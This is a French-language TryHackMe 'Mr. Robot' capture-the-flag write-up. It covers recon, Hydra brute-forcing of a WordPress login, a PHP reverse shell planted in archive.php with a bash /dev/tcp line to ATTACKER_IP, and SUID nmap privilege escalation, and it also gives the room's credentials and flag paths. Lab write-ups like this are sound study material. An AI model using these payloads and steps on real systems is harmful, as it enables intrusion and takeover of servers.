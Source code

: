 ![Capture TryHackMe](robot.png)

![Capture TryHackMe](THMCTF.png)
### **Récapitulatif organisé de l’exploitation : Mr. Robot**

---

### **1. Reconnaissance de la cible**

#### **1.1 Test de connectivité**
![Capture TryHackMe](Ping.png)
- **Commande :**
    
    ```bash
    ping <IP_TARGET>
    ```
    
- **Résultat :** La cible répond, confirmant sa disponibilité.

#### **1.2 Accès à la page web**
![Capture TryHackMe](Website.png)
- J'ai ouvert l'IP dans Firefox pour voir si un service HTTP est actif.
- **Observation :**
    - Une page web de style "Mr. Robot" est affichée.
    - Plusieurs indices potentiellement intéressants, dont un **username visible** : **root**.

#### **1.3 Scan avec Nmap**
![Capture TryHackMe](Nmap.png)
- **Commande :**
    
    ```bash
    nmap -sV <IP_TARGET>
    ```
    
- **Résultat :**
    - **Port 80 (HTTP)** : Serveur Apache.
    - **Port 443 (HTTPS)** : Serveur actif.
    - **Port 22 (SSH)** : Fermé.

#### **1.4 Exploration des répertoires avec Gobuster**
![Capture TryHackMe](gobuster.png)
- **Commande :**
    
    ```bash
    gobuster dir -u http://<IP_TARGET> -w <wordlist>
    ```
   
- **Résultat :** ![Capture TryHackMe](Robot.txt.png)
    - Répertoire `/robots` découvert, contenant :
        
        ```
        User-agent: *
        fsocity.dic
        key-1-of-3.txt
        ```
        
    - Actions :
        - Téléchargé `fsocity.dic` : Une wordlist.
        - Récupéré **key-1-of-3.txt** : Premier flag trouvé.
![Capture TryHackMe](wegetfirstkey.png)
---

### **2. Analyse de la cible : WordPress**
![Capture TryHackMe](exploitverbose.png)
#### **2.1 Identification de WordPress**

- La cible utilise WordPress version **4.1.3**, qui contient plusieurs vulnérabilités connues.

#### **2.2 Scan WordPress avec WPScan**

- **Commande :**
    
    ```bash
    wpscan --url http://<IP_TARGET> --enumerate vp
    ```
    
- **Résultat :**
    - Le service **XML-RPC** est activé, permettant des attaques de bruteforce via API.

#### **2.3 Bruteforce avec Hydra**
![Capture TryHackMe](hydra.png)
- **Exploitation de la faille verbose de WordPress :**
    
    - La page de login **wp-login.php** affiche des messages spécifiques si :
        - L’username est incorrect.
        - Le mot de passe est incorrect.
    - Cette faille permet d’isoler et bruteforcer uniquement l’**username** ou le **mot de passe**.
- **Commande :**
    
    ```bash
    hydra -l Elliot -P fsocity.dic <IP_TARGET> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid password"
    ```
    
- **Résultat :**
    ![Capture TryHackMe](crackmdprobot.png)
    - **Username trouvé** : Elliot
    - **Mot de passe trouvé** : ER28-652

---

### **3. Exploitation de WordPress**

#### **3.1 Connexion à l'interface WordPress**

- **URL :** `http://<IP_TARGET>/wp-login.php`
- **Credentials :**
    - Username : Elliot
    - Mot de passe : ER28-652
- Résultat : Accès administrateur à WordPress.

#### **3.2 Injection d'un reverse shell**
![Capture TryHackMe](injectionpage.png)
- **Test 1 : Création d’une page avec un script PHP**
    
    - Échec : Le code PHP semble désactivé dans les pages.
- **Test 2 : Modification d’un plugin**
    ![Capture TryHackMe](listenernetcat.png)
    - J'ai modifié le fichier `archive.php` pour y injecter un script **reverse shell PHP** :
        
        ```php
        <?php
        exec("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'");
        ?>
        ```
        
    - **Exécution :** En accédant à l’URL du plugin modifié, le script s’est exécuté.

---

### **4. Shell utilisateur "robot"**
![Capture TryHackMe](escalade.png)
#### **4.1 Obtention d’un shell limité**

- **Commande pour ouvrir un listener local :**
    
    ```bash
    nc -lvnp <PORT>
    ```
    
- **Résultat :** Connexion réussie avec les droits de l’utilisateur **robot**.

#### **4.2 Upgrade du shell**

- Problème : Le shell est limité et ne permet pas d’exécuter certaines commandes interactives.
- Solution : J’ai converti le shell en **shell interactif** avec Python.
    - **Commande :**
        
        ```bash
        python -c 'import pty; pty.spawn("/bin/bash")'
        ```
        

---

### **5. Escalade de privilèges**

#### **5.1 Recherche des fichiers SUID**

- **Commande :**
    
    ```bash
    find / -perm -u=s -type f 2>/dev/null
    ```
    
- **Résultat :** Plusieurs fichiers avec le bit SUID trouvé, dont **Nmap**.
![Capture TryHackMe](privilegerootflag3.png)
#### **5.2 Exploitation de Nmap**

- **Version :** 3.81 (vulnérable, avec mode interactif).
- **Exploitation :**
    - Commande pour lancer Nmap en mode interactif :
        
        ```bash
        nmap --interactive
        ```
        
    - Dans le mode interactif, j’ai exécuté un shell avec les privilèges root :
        
        ```bash
        !sh
        ```
        
    - **Vérification des privilèges :**
        
        ```bash
        whoami
        ```
        
        Résultat : root

---

### **6. Récupération des flags**

1. **Flag 2 :** J’ai lu la clé réservée à l’utilisateur **robot** :
    
    ```bash
    cat /home/robot/key-2-of-3.txt
    ```
    
2. **Flag 3 :** Une fois root, j’ai trouvé et lu la dernière clé :
    
    ```bash
    cat /root/key-3-of-3.txt
    ```
    

---

### **Résumé technique**

- **Étapes principales :**
    
    - Reconnaissance : Ping, scan Nmap, exploration avec Gobuster.
    - Accès initial : Bruteforce WordPress (username/password).
    - Exploitation WordPress : Reverse shell via un plugin.
    - Escalade de privilèges : Exploitation de Nmap (mode interactif vulnérable).
    - Récupération des flags : Lecture des fichiers root.
- **Accès final obtenu :** `root` avec contrôle total de la machine.
    
#Résumé global des compétences acquises
Bruteforce avancé avec Hydra :

Adapter la syntaxe en fonction des réponses du site.
Exploiter des failles pour optimiser les attaques.
Escalade des privilèges sous Linux :

Identifier les fichiers SUID et comprendre leur rôle.
Exploiter des programmes vulnérables pour devenir root.
Amélioration d'un shell :

Passer d’un reverse shell basique à un shell interactif.
Comprendre les limitations des shells non interactifs.
